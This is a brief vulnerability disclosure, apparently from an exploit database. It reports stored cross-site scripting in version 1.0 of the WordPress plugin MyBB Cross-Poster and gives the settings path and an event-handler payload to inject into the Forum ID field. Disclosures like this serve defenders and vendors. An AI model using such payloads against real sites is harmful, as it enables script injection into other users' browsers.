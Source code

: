 # Exploit Title: WrodPress Plugin MyBB Cross-Poster——Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/mybb-cross-poster/
# Version :  V 1.0
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Settings》MyBB Cross-Poster 》MyBB Cross-Posting Forum ID ,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image]()  
